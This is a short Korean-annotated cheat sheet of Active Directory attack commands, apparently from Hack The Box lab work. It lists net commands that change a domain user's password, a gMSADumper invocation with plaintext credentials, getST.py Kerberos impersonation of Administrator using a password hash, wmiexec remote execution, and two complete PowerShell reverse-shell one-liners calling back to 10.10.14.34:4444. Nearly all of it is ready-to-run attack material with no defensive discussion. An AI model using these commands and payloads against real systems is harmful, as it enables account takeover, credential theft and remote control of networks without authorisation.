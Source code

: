 ### net
```
net user pinocure
net localgroup "Audit Share"
```
```
# 유저 비밀번호 변경
net user michael ruang123 /domain
```

### gMSADumper
```
python gMSADumper/gMSADumper.py -u Ted.Graves -p Mr.Teddy -d intelligence.htb -l 10.10.10.248
```

### ntpdate
```
# 시간 동기화
sudo ntpdate -s 10.10.10.248
```

### getST.py
```
getST.py -spn WWW/dc.pinocure.com -impersonate Administrator pinocure.com/svc_int -hashes :fb1016316a5da8e6eee87870bd7dad90
```

### 환경변수
```
export KRB5CCNAME=Administrator.ccache
```
```
unset KRB5CCNAME
```

### wimexec.py
```
wmiexec.py -k -no-pass dc.pinocure.com
```

### ps1 파일
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.34',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### admin.ps1 파일
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.34",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
